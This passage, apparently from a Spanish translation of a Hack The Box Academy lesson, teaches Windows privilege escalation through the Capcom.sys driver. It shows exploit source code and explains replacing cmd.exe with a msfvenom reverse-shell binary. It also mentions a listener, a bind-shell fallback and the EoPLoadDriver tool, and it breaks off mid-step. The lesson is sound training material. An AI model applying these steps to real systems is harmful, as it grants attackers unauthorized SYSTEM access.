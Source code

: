 Esto lanza un shell con privilegios del sistema.

![Command prompt running as NT AUTHORITY\SYSTEM. PowerShell shows Capcom.sys driver identified and ExploitCapcom.exe executed, resulting in successful token stealing and SYSTEM shell launch.](https://academy.hackthebox.com/storage/modules/67/capcomexploit.png)

---

## Explotación alternativa: sin GUI

Si no tenemos acceso GUI al objetivo, tendremos que modificar el`ExploitCapcom.cpp`código antes de compilar. Aquí podemos editar la línea 292 y reemplazar`"C:\\Windows\\system32\\cmd.exe"`con, por ejemplo, un binario de shell inverso creado con`msfvenom`, Por ejemplo:`c:\ProgramData\revshell.exe`.

Código:do

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

El`CommandLine`La cadena en este ejemplo se cambiaría a:

Código:do

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

Configuraríamos un oyente basado en el`msfvenom`carga útil que generamos y esperamos recibir una conexión de shell inversa al ejecutar`ExploitCapcom.exe`. Si una conexión de shell inversa está bloqueada por algún motivo, podemos probar un shell de enlace o ejecutar/agregar carga útil del usuario.

---

## Automatizar los pasos

#### Automatizar con EoploadDriver

Podemos usar una herramienta como[Eoploaddriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)Para automatizar el proceso de habilitar el privilegio, crear la clave de registro y ejecutar`NTLoadDriver`para cargar el controlador. Para hacer esto, ejecutaríamos lo siguiente:
